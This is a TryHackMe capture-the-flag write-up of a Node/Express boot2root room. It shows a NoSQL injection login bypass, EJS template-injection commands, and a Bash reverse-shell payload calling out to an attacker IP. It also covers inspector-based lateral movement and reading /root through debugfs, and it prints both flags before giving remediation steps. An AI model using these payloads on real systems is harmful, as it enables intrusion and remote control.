# Do Not Disturb

> **Platform: TryHackMe**  
> **Difficulty: Medium**  
> **Category: Web, Boot2Root**  
> **Date Completed: 03-Aug-2026**

---

> **Note:**
> - AI assistance was heavilyused for research and crafting commands during this room.
> - Target IP addresses may vary across sections due to target machine restarts.

## Room Brief

Concierge Briefing
VERA — Sign's on the door. Room's active. You have access you were never given, and so does he.

The anomalies stop being anomalies: a session goes warm on a sunbed, and a stranger sits down in it, a wallet signs a transaction its owner didn't authorise, a shell on the beach answers back. And it becomes clear that whoever's already inside has been moving for far longer than you have.

The Byte Lotus poolside platform tracks every cabana, every sunbed, every warm session. Byte Lotus never forgets. Someone is already inside. Follow his footprints in, climb the way he climbed, and recover both flags.

---

## Clues

Based on the briefing, several key security elements and potential attack vectors can be inferred:

- **Unauthorized Access:** Bypassing authentication or authorization controls.
- **Session Management:** Inspecting session tokens, state handling, or hijacked warm sessions.
- **Remote Code Execution:** Potential shell access via server-side vulnerabilities.
- **Logging & Telemetry:** Reviewing process logs or active background services.
- **Database :** Likelihood of a NoSQL database (e.g., MongoDB) managing session entities like cabanas and sunbeds.

---

## Approach

### Reconnaissance & Initial Enumeration

Visiting `http://<TARGET_IP>` in the browser presented a login interface with a placeholder `'attendant'` for Staff/Guest ID.

Inspecting the response headers:

```http
Connection: keep-alive
Date: Mon, 02 Aug 2026 08:19:17 GMT
ETag: W/"83c-UEYvBJXcdQCAvfgltC8uUXekb84"
Keep-Alive: timeout=5
X-Powered-By: Express
```

The `X-Powered-By: Express` header confirmed that the web application runs on a Node.js/Express backend.

Initial testing for standard SQL injection payloads (e.g., `' OR '1'='1' --`) failed to bypass authentication.

Next, directory enumeration was performed using `gobuster`:

```bash
gobuster dir -u http://10.49.190.15 -w /usr/share/wordlists/dirb/common.txt
```

Accessing the discovered `/staff` endpoint directly returned a `403 Forbidden` response:



This confirmed an authorization check was enforced for the endpoint. However, none of the accessible routes set session cookies or populated local storage data.

### NoSQL Injection Authentication Bypass

Recalling the clue regarding tracked "warm sessions" and considering the Express backend, the application was hypothesized to interact with a NoSQL document store such as MongoDB.

Intercepting the login request in Burp Suite, the password parameter was converted from a standard string to a NoSQL comparison operator query object:

**Original Payload:**
`username=attendant&password=pass`

**Injected Payload:**
`username=attendant&password[$ne]=pass`



The `$ne` ("not equal") operator causes the database query to evaluate as:

```js
db.users.findOne({
    username: "attendant",
    password: { $ne: "pass" } // Returns true if password is not "pass"
})
```

Because the expression evaluated to `true`, the application bypassed authentication and granted access to the `/staff` portal.



---

### Exploitation & Initial Access (SSTI)

Further inspection of the `/staff` dashboard revealed a template evaluation feature (EJS):




To confirm Server-Side Template Injection (SSTI), arbitrary Node.js commands were executed via standard EJS template tags:



```bash
<%= process.mainModule.require('child_process').execSync('whoami').toString() %>
```
*Output:* `poolside`

```bash
<%= process.mainModule.require('child_process').execSync('id').toString() %>
```
*Output:* `uid=996(poolside) gid=996(poolside) groups=996(poolside)`

With command execution verified, a Netcat listener was started locally:

```bash
rlwrap nc -lvnp 4444
```

A Bash reverse shell payload was then delivered through the SSTI vulnerability:

```bash
<%= process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.48.122.48/4444 0>&1"').toString() %>
```



After obtaining an interactive reverse shell, directory traversal revealed the first flag:



### First Flag
<details>
<summary>🚩 Show Flag</summary>

```text
THM{w4rm_s3ss10n_h1j4ck3d}
```
</details>

---

### Privilege Escalation

Enumerating running applications revealed another service stored in the `/opt` directory under `pipelinesvc/telemetry/processor.js`.



Checking active Node processes with `ps aux`:

```bash
ps aux | grep node
```



The output indicated that the `pipelinesvc` user was running `processor.js` with the Node.js V8 inspector/debugger active on its default port (`9229`).

Comparing user groups between `poolside` and `pipelinesvc`:



Noticeably, the `pipelinesvc` user is a member of the **`disk`** group, granting raw read and write access to system block devices.

Listing all block devices with `lsblk` and verifying permissions with `ls -l /dev/nvme*`:



The root filesystem partition `/dev/nvme0n1p1` belongs to the `disk` group.

Connecting to the active Node inspector protocol granted an interactive REPL within the execution context of `pipelinesvc`:



Since `pipelinesvc` possesses raw disk access permissions, `debugfs` was executed via the debugger REPL to interact directly with the underlying filesystem block device:

```javascript
execSync('debugfs /dev/nvme0n1p1 -R "cat /root/root.txt"').toString()
```



This bypassed standard Linux filesystem permissions, allowing direct extraction of the root flag from `/dev/nvme0n1p1`.

### Second Flag
<details>
<summary>🚩 Show Flag</summary>

```text
THM{r4w_d1sk_4cc3ss_w4s_t00_much}
```
</details>

---

## How the Attack Could Have Been Avoided

To secure the system and prevent this attack chain from initial access to root compromise, the following remediation measures should be implemented:

1. **Prevent NoSQL Injection (Input Sanitization & Type Validation)**
   - **Schema & Type Enforcement:** Use middleware or schema validators (such as `joi`, or `express-validator`) to ensure incoming parameters are strictly parsed as strings rather than query objects (`{ $ne: ... }, {$gt:..}`).
   - **Sanitize Query Operators:** Implement libraries like `express-mongo-sanitize` to strip characters starting with `$` or `.` from user inputs before passing them into MongoDB/NoSQL queries.

2. **Mitigate Server-Side Template Injection (SSTI)**
   - **Avoid Evaluating Unsanitized User Input:** Never dynamically render or evaluate user-provided data in template engines or execution blocks.
   - **Secure Template Engine Options:** Configure template engines (e.g., EJS) to properly escape output and restrict access to dangerous JavaScript globals (`process`, `mainModule`, `require`).

3. **Secure Node.js Debugger & Inspector**
   - **Disable Inspector in Production:** Remove flags like `--inspect` from background production services (`processor.js`).

4. **Enforce Principle of Least Privilege**
   - **Remove Service Accounts from Dangerous Groups:** Non-root service accounts like `pipelinesvc` should **never** be members of the `disk` group. Belonging to the `disk` group grants direct read/write permissions to raw block devices (`/dev/nvme0n1p1`), completely bypassing Linux filesystem permissions .
 
---

## Conclusion

This challenge demonstrates a multi-stage attack chain highlighting how web application vulnerabilities combined with system misconfigurations can lead to complete host compromise.

**Authentication Bypass:** A NoSQL injection vulnerability allowed bypassing the login screen and gaining unauthorized access to the `/staff` portal.

**Remote Code Execution (RCE):** Server-Side Template Injection (SSTI) on the staff page allowed executing system commands and obtaining an initial foothold as the `poolside` user.

**Lateral Movement:** An exposed Node.js inspector permitted attaching to a running background service (`pipelinesvc`).

**Privilege Escalation to Root:** Over-privileged group membership (`disk`) granted the service account direct access to the raw block device (`/dev/nvme0n1p1`), allowing `debugfs` to inspect `/root` and extract the final flag.

By enforcing strict input validation, disabling debugging capabilities in production, and applying the principle of least privilege, every link in this attack chain could have been effectively mitigated.

--- 